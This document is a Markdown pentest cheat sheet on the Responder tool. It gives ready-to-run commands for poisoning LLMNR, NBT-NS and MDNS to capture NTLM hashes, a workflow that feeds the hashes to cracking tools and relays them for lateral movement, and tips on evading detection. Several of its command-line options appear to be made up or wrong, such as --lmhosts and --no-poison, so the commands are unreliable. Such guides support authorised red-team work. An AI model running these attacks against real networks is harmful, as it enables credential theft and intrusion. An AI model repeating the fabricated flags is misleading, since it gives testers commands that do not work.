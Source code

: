 ```yaml
---
icon: reply
---
```


# Responder

## The Responder Masterclass: Professional LLMNR, NBT-NS, and MDNS Poisoning & Credential Harvesting

Responder is a powerful internal network attack tool that poisons name resolution protocols (LLMNR, NBT-NS, MDNS) to capture hashed credentials and gain privileged information on Windows networks during internal assessments and red team engagements.

***

### I. Environment Setup: Dynamic Variables

Export session variables for adaptability and clean output organization:

```bash
export INTERFACE="eth0"                  # Attacker’s network interface in target subnet
export OUTPUT_DIR="responder-results"
export LOG_FILE="$OUTPUT_DIR/captured_hashes.log"
export LMHOSTS_FILE="lmhosts"             # Optional: LMHOSTS file for spoofing names
export BIND_INTERFACE="0.0.0.0"           # IP to bind responder services (default all)
export RESOLVE_NETBIOS=true               # Enable NetBIOS spoofing & resolution
export RESOLVE_LLMNR=true                 # Enable LLMNR spoofing
export RESOLVE_MDNS=true                  # Enable MDNS spoofing
export SMB_LISTENER_PORT=445

```

***

### II. Core Capabilities & Workflow

* **Multicast Name Poisoning:** Responds to LLMNR, NBT-NS, and MDNS requests with attacker-controlled responses to intercept authentication attempts.
* **Hash Capture & Cracking:** Captures NTLMv1/v2 password hashes, SMB challenges, and can perform on-the-fly cracking or offline using external tools.
* **Automatic Relay & Credential Forwarding:** Can relay captured hashes to other SMB services for lateral movement (e.g., using SMBClient or CrackMapExec).
* **Name Resolution Spoofing:** Spoofs common and requested names to redirect traffic to attacker-controlled hosts.
* **Extensive Logging:** Logs captured hashes, request metadata, and authentication attempts.
* **Passive Scanning:** Can operate stealthily to gather data without active poisoning.

***

### III. Professional Usage Examples

#### 1. Basic Poisoning on Interface

```bash
sudo responder -I $INTERFACE -wv

```

#### 2. Log Captured Credentials to File

```bash
sudo responder -I $INTERFACE -wv -r -f --logfile "$LOG_FILE"

```

#### 3. Disable Specific Protocol Spoofing (e.g., disable MDNS)

```bash
sudo responder -I $INTERFACE -wv -r --disable-mdns

```

#### 4. Use Custom LMHOSTS File for Specific Spoofs

```bash
sudo responder -I $INTERFACE -wv --lmhosts $LMHOSTS_FILE

```

#### 5. Relay Captured NTLM Hashes to SMB Target

Using SMB Client or CrackMapExec externally with hashes obtained by Responder.

#### 6. Stealth Mode (Passive Listener Only)

```bash
sudo responder -I $INTERFACE --no-poison -wm

```

***

### IV. Advanced Techniques & Scenarios

* **Internal Network Reconnaissance:** Use Responder on an internal network segment to discover hosts and shares during engagements.
* **Hash Cracking Pipeline:** Automate feeding captured hashes into Hashcat or John the Ripper for rapid password recovery.
* **Multi-Interface Attacks:** Run Responder on multiple network interfaces simultaneously in complex environments.
* **Integration with Post-Exploitation Frameworks:** Relay compromised credentials to tools like CrackMapExec or Metasploit for lateral movement.
* **Filter Target Hosts:** Use LMHOSTS or command line to limit targets and reduce noise.
* **Defensive Evasion:** Limit poisoning scope and monitor logs to avoid triggering alerts on blue team systems.

***

### V. Real-World Workflow Example

1. **Export Variables**

```bash
export INTERFACE="eth0"
export OUTPUT_DIR="responder_scans"
export LOG_FILE="$OUTPUT_DIR/captures.log"

```

1. **Start Poisoning and Logging**

```bash
sudo responder -I $INTERFACE -wv -r --logfile "$LOG_FILE"

```

1. **Analyze Captured Hashes**

* Use Hashcat or John the Ripper for cracking captured NTLM hashes.

1. **Relay Obtained Hashes**

* Use CrackMapExec to move laterally within Windows domain.

1. **Report Findings**

* Document captured credentials and attack scope.

***

### VI. Pro Tips & Best Practices

* Run on target internal network segment for maximum impact.
* Combine with network mapping tools for comprehensive assessment.
* Use responsibly and only with explicit permission.
* Regularly update Responder tool and hash cracking wordlists.
* Monitor detection systems while performing poisoning attacks.
* Use targeted scope to reduce detection risk and collateral impact.
* Analyze logs meticulously to spot patterns and possible escalations.

***

This professional Responder guide equips penetration testers and red teamers to effectively perform internal network poisoning, credential harvest, and lateral movement reconnaissance while maintaining operational safety and stealth.
